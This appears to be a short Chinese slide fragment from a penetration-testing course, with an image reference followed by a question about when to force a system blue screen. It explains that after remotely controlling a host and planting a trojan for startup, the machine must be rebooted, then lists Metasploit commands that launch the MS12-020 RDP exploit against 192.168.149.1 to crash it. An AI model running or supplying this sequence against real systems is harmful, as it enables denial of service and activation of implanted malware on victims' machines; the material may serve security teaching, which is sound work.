

一般什么时候需要系统蓝屏？
有的时候远程控制到了主机将木马植入程序开机启动运行，所以有的时候需要重启一下机器
search ms12-020
use 0
set rhosts 192.168.149.1
run